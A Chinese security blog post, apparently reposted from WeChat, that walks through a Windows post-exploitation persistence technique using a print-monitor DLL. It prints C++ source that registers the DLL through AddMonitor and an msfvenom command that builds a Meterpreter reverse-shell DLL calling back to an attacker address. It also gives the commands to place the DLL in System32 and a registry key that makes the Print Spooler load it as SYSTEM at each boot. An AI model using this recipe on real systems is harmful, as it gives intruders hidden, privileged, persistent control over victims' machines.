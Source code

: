 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/I7EJTMVtRspV5ixndSaw9A)

![](https://mmbiz.qpic.cn/mmbiz_jpg/83e7tQTo0wNib6U4Jg7icDNjHAqnZqvgDuicVfmib6r3ogfkgOzPJ2GXqNLkictRsV0Zt6ibkRCwr9nZKYSD80H3ib7uA/640?wx_fmt=jpeg)

来自 | 乌雲安全

**0x01 项目地址**

https://github.com/Al1ex/Monitor

****0x02** 项目说明**

用于实现后渗透测试阶段权限维持

****0x03** 项目使用**

Step1：下载该项目，之后使用 VS 编译 Monitor.cpp，当然也可以使用编译好的，Monitor.cpp 代码如下所示：

```
#include "Windows.h"
int main() {
  MONITOR_INFO_2 monitorInfo;
  TCHAR env[12] = TEXT("Windows x64");
  TCHAR name[12] = TEXT("Monitor");
  TCHAR dll[12] = TEXT("test.dll");
  monitorInfo.pName = name;
  monitorInfo.pEnvironment = env;
  monitorInfo.pDLLName = dll;
  AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
return 0;
}
```

*   pName：监视器名称
    
*   pEnvironment：环境架构
    
*   pDLLName：监视器 DLL 文件的名称
    

Step 2：使用 Msfvenom 生成 dll 攻击载荷：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.188.129 LPORT=4444 -f dll > shell.dll
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcssBfd5W0F3n6zJ1FkHPJMxyHj4uCGxuX5picxotX4kviaa9JdicV2Tsp0YuhQnztdtfqKvwuCrHwew/640?wx_fmt=png)  

Step 3：将 shell.dll 复制到目标主机的 system32 目录下，之后重命名为 test.dll(也就是上面的 PDLLName，你也可以自己修改为自己喜欢的，总之随意)

```
copy C:\temp\shell.dll C:\Windows\System32\test.dll
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcssBfd5W0F3n6zJ1FkHPJMZDQQQbFxJpdFd6QLBPHr5fnGChYwAQ8TiauxunFNIS9s2MEj2sRnK0A/640?wx_fmt=png)

Step 4：之后进入 system32 目录，并执行以下命令 (Monitors.exe 为之前编译好的文件，也需要放置到 system32 目录下)：

```
Monitors.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcssBfd5W0F3n6zJ1FkHPJMkWgyjMUdicIa9wKE2aHv0XQ2CtwibkJn5Lh2PqluaRCWb58KiaIudvSHg/640?wx_fmt=png)  

Step 5：之后成功接收到 Meterpreter 会话

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcssBfd5W0F3n6zJ1FkHPJM7wBwB8ZK3bOic5Bg9icLV8VlSPPTA5UvdvibuXKHxeu1jbPwxH18LFudw/640?wx_fmt=png)

****0x04** 持久化实现**

为了实现持久性，我们需要在 "Monitors" 注册表位置下设置一个 key:

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors
```

之后在命令行下执行以下命令创建一个注册表项，该注册表项将包含值 test.dll，从编辑器中查看注册表验证密钥是否已创建：

```
reg add "hklm\system\currentcontrolset\control\print\monitors\Pentestlab" /v "Driver" /d "test.dll" /t REG_SZ
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcssBfd5W0F3n6zJ1FkHPJMMUoic4QVO0UMUufQTicIckqNdib1jQuDsib05j1246xWFTuWUD55F3twBQ/640?wx_fmt=png)  

下次重新启动时，spoolsv.exe 进程将加载 Monitors 注册表项中存在并存储在 Windows 文件夹 System32 中的所有驱动程序 DLL 文件

下图演示了 Meterpreter 会话已建立与 Print Spooler 服务 (SYSTEM) 相同级别的特权，并且已从 System32 文件夹执行了  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcssBfd5W0F3n6zJ1FkHPJM360z2FZh95MDMjUwlmIL2yjjRESfT3cUMAh0IscgXcchIDciaOCTrtg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“如侵权请私聊公众号删文”

****扫描关注 LemonSec****  

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icncXiavFRorU03O5AoZQYznLCnFJLs8RQbC9sltHYyicOu9uchegP88kUFsS8KjITnrQMfYp9g2vQfw/640?wx_fmt=png)

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**